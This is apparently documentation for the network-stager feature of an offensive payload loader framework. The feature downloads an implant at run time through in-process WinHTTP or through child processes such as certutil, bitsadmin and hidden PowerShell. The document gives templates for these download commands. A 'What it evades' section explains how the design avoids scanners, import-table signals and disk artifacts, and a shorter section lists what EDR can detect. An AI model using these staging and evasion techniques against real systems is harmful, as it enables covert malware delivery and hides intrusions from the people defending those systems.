


# Network stager

*Fetches the payload over the network at run time instead of embedding it, so
nothing of it ships in the artifact and the operator can rotate it freely.*

## What it does

Fetches a payload over the network at **run time** instead of embedding it in
the artifact. The step downloads the bytes, optionally decrypts them, and hands
them to the next Execution step, which runs them exactly as it would an embedded
payload.

Two transports ship:

- **In-process (WinHTTP)** — `downloader: winhttp` fetches in the loader's own
  process over a dynamically resolved `winhttp.dll`. No child process, no temp
  file, no WinHTTP entry in the import table. This is what `auto` picks for
  `http(s)` URLs.
- **Child process** — `curl`, `certutil`, `powershell` or `bitsadmin` (or `scp`
  for `scp://`) downloads to a temp file the loader then reads.

The plan also decides whether the artifact can run **without** a network.
`fallback: embedded` keeps the payload embedded and prefers the fetched bytes:
if the fetch fails, the Execution step runs the embedded copy instead of failing
the chain. Strictly staged (the default) is the artifact that carries nothing.

## How it works

### 1. Build time: leave the payload out — or keep a fallback copy

1. The build sees that `implant` is named by a `network_stager` step. With
   `fallback: none` (the default) the payload is **not** embedded
   (`include_bytes!`) or encrypted — nothing of it ships in the artifact. With
   `fallback: embedded` it is embedded and encrypted like any stageless payload
   **and** the Execution step prefers the staged copy at run time.
2. The URL's host, port, path and TLS flag (and, for `scp://`, the target) are
   parsed here, so the stub never parses a URL. An `http(s)` URL that cannot be
   parsed is a build error.

### 2. Run time: fetch and decrypt

3. The transport runs. The in-process one resolves every WinHTTP entry point
   from obfuscated bytes, follows redirects (`curl -L` behavior), fails on an
   HTTP status of 400 or more, and reads the body straight into memory. The
   child-process one waits for the downloader up to `timeout_ms` and reads the
   temp file. Both retry up to `retries` extra times, and a later attempt that
   succeeds is the one that is used — only an exhausted set of attempts is a
   failure.
4. When `crypto: xchacha20poly1305`, the fetched blob is decrypted in the stub
   (key/nonce declared on the step). The embedded copy, when there is one, uses
   the payload's own crypto instead — the two layers are independent.

### 3. Hand off to the next step

5. The bytes are stored in a process-global slot; the next Execution step reads
   that slot instead of decrypting an embedded payload (or falls back to the
   embedded ciphertext when `fallback: embedded` and the fetch failed).

## Integration

A **Control** step: it orchestrates the chain and returns control when it
finishes, so the steps around it keep running. It fetches the payload at run time and hands it to the following Execution step.

`fallback: embedded` makes a failed fetch a non-event: the step returns success
and the payload runs from the embedded copy, so the plan does not need
`on_fail: continue` for it. Use the default `fallback: none` when the fetched
bytes are the only copy that may exist.

## Transports

| `downloader` | How | Child process | Temp file | When to choose it |
| --- | --- | --- | --- | --- |
| `auto` (default) | `winhttp` for `http(s)`, `curl` for `ftp`, `scp` for `scp://` | per scheme | per scheme | The default; the quiet path for `http(s)`. |
| `winhttp` | In-process WinHTTP fetch | no | no | Explicit in-process fetch (`http(s)` only). |
| `curl` | `curl.exe -sL -o <out> <url>` | yes | yes | Force the child process (e.g. curl's proxy behavior). |
| `certutil` | `certutil.exe -urlcache -split -f <url> <out>` | yes | yes | Where curl is blocked and certutil is not. |
| `powershell` | Hidden `powershell -NoProfile -Command Invoke-WebRequest` | yes | yes | Where the other downloaders are blocked. |
| `bitsadmin` | `bitsadmin /transfer <job> /download <url> <out>` | yes | yes | Legacy hosts. |

`agent` sets the in-process `User-Agent` (default: a generic Windows
browser-like string); the child-process transports bring their own.

## What it evades

- **The payload never ships in the artifact** (strictly staged), so there is no
  embedded ciphertext for a scanner to entropy-test or signature-match; the
  operator can rotate the payload without rebuilding.
- **In-process fetch**: no child process and no temp file to observe, and
  `winhttp.dll` is resolved at run time, so the import table gains nothing and
  the library and entry-point names never reach `.rdata`.
- The URL, host, path, agent, credentials and key/nonce are obfuscated through
  `StringsConfig`.
- With `fallback: embedded`, the artifact also runs where the network is
  filtered — the fetch is a refresh, not a single point of failure.

## What detects it

- **Child-process transports**: the child process (`certutil`/`curl`/`scp`/
  `powershell`/`bitsadmin`) and its command line are observable by EDR and are
  themselves a LOLBin-detection signal. Many EDRs block `certutil -urlcache`
  downloads outright; the `downloader` parameter exists to switch to one the
  host allows.
- **The in-process transport trades those signals for others**: the fetch is a
  network connection from the loader process itself, `LoadLibraryA` of
  `winhttp.dll` is visible to module-load telemetry, and a TLS session from a
  process that is not a browser stands out in network telemetry. Nothing is
  written to disk, though.
- The artifact gains no static network imports (the fetch is a child process or
  a dynamic lookup), but the runtime download is a network connection an NDR/EDR
  can see.

## Measurements

Runtime-verified on the lab host (loopback HTTP server, 2026-10-14): the
in-process fetch runs the served payload (no child process, no temp file), the
step-level wire crypto decrypts the fetched blob, the child-process transport
still does after the transport split, and `fallback: embedded` prefers the
fetched copy when the server answers and runs the embedded one when the fetch is
refused at connect. Five `#[ignore]`d e2e tests in `tests/cli.rs` cover it; the
i686 compile net is `compiles_both_stager_transports_for_i686`. Numbers and test
names: `docs/measurements.md`.

## Implementation notes

- **Transport selection is build-time** from the URL scheme and `downloader`, so
  the fragment carries no scheme literals. `winhttp` is rejected for `ftp://`
  and `scp://` at validation time.
- **The in-process transport fails on an HTTP status of 400 or more**: an error
  page must never be staged as if it were the payload (the child-process
  downloaders tolerate it, like `curl` without `-f`).
- **Redirects** are followed with `WINHTTP_OPTION_REDIRECT_POLICY_ALWAYS` (the
  `curl -L` behavior); the automatic proxy configuration is used
  (`WINHTTP_ACCESS_TYPE_AUTOMATIC_PROXY`). Userinfo in the URL (`user:pass@`) is
  dropped by the in-process transport: `WinHttpConnect` has no place for it.
- `scp://` is **not runtime-verified** (no SSH host available) and requires a
  passwordless key; see the design doc.
- A staged payload cannot be validated at build time, so
  `build.payloads.<name>.sha256` is not enforced here. With
  `fallback: embedded` the *embedded* copy is validated (and hash-pinned) as
  usual.
- **Both transports cap the staged body at 64 MiB** (`MAX_STAGED_BYTES`), the
  same limit the packer applies to a fetched input: a hostile or misconfigured
  server cannot grow the loader's memory without bound. The in-process
  transport rejects a chunk that would exceed the cap before allocating it; the
  child-process transport checks the temp file's metadata and then reads at
  most one byte past the cap.
- **The child-process transport deletes its temp file on every path** —
  success, a failed read, an oversized body — through a drop guard, so an error
  never leaves the downloaded payload on disk.
- Both transports define `fetch() -> Result<Vec<u8>, String>`; the shared runner
  in `stub_fragment.rs` owns the retries, the staged decryption and the slot.

## References

- `docs/design/network-stager.md` — the full design, phases and open questions.
- `src/engine/steps.rs` — the runner wiring (`take_staged_payload`).
- `src/engine/stager.rs` — the shared slot and staged decryption.
